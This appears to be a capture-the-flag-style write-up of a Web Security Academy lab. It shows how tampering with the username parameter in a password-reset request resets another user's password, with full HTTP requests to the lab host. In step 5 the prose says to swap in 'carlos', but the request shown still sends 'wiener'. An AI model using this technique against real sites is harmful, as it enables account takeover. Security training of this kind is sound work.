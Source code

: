 # Lab: Password reset broken logic
## Description

1. Login using `wiener`. Get his email address
2. Logout. Type email address into the forgot password form
3. Go to email server and get the reset link. It will look something like this:
`https://aca51f711ebdfd82c0491ec90051008b.web-security-academy.net/forgot-password?temp-forgot-password-token=jryXALIBAxsh6VVEoQqfRfd6DX9zqOqL` (the unique token doesn't seem to be base64 or anything simple)
4. By opening the reset [link](https://aca51f711ebdfd82c0491ec90051008b.web-security-academy.net/forgot-password?temp-forgot-password-token=jryXALIBAxsh6VVEoQqfRfd6DX9zqOqL) and entering a new password genrates the following request:
```yaml
POST /forgot-password?temp-forgot-password-token=jryXALIBAxsh6VVEoQqfRfd6DX9zqOqL HTTP/1.1
Host: aca51f711ebdfd82c0491ec90051008b.web-security-academy.net
Cookie: session=nn17ymNbYXs9SKnBe306g3KBVFMbAbTM

temp-forgot-password-token=jryXALIBAxsh6VVEoQqfRfd6DX9zqOqL&username=wiener&new-password-1=password&new-password-2=password
```
Note: the reset link can only be used once! But notice the `username` parameter is passed along with the request.....
5. Create new reset link, and attempt to replace `wiener` with `carlos`, like this:
```yaml
POST /forgot-password?temp-forgot-password-token=a9pbmLd0JwAHwvHUFXttnA2cU4jsPS2L HTTP/1.1
Host: aca51f711ebdfd82c0491ec90051008b.web-security-academy.net
Cookie: session=nn17ymNbYXs9SKnBe306g3KBVFMbAbTM
Content-Length: 123

temp-forgot-password-token=a9pbmLd0JwAHwvHUFXttnA2cU4jsPS2L&username=wiener&new-password-1=password&new-password-2=password
```

## Solution
See description
